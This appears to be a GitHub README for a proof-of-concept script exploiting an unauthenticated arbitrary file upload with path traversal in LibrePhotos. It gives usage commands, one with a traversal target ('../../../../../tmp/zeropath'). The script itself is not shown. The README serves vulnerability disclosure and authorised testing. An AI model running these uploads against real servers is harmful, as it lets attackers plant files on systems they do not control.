 # LibrePhotos Unauthenticated Arbitrary File Upload Vulnerability + Path Traversal Proof of Concept

This repository contains a Proof of Concept (PoC) script demonstrating an arbitrary file upload vulnerability in LibrePhotos. **This tool is for educational and authorized testing purposes only.**

## Usage

### Arbitrary File Upload

To upload a file:

```
python3 file_upload_poc.py --url <target_url> --file <path_to_local_file> --target <target_filename>
```

Example:
```
python3 file_upload_poc.py --url http://example.com:8000 --file /path/to/local/file.txt --target "../../../../../tmp/zeropath"
```
### Additional Options

- `--user`: Specify a custom user ID (default is '1')

Example:
```
python3 file_upload_poc.py --url http://example.com:8000 --file /path/to/local/file.txt --target "file.txt" --user "123"
```
